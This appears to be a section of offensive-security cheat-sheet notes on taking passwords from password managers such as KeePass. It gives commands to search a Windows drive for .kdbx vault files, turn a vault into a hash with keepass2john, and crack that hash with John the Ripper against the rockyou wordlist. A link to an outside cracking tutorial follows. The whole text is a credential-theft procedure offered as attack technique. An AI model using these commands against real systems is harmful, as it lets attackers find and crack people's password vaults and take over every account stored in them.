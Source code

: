 # Password Manager
Getting passwords from password managers such as 1Password or Keepass.

* Search which kind of database or files does the password manager use. Example: Keepass use .kdbx
* Find that kind of file: Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
* Try to get that file as hash with John The Ripper: keepass2john Database.kdbx > keepass.hash
* Crack the hash: john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash.hash

* More details: https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/
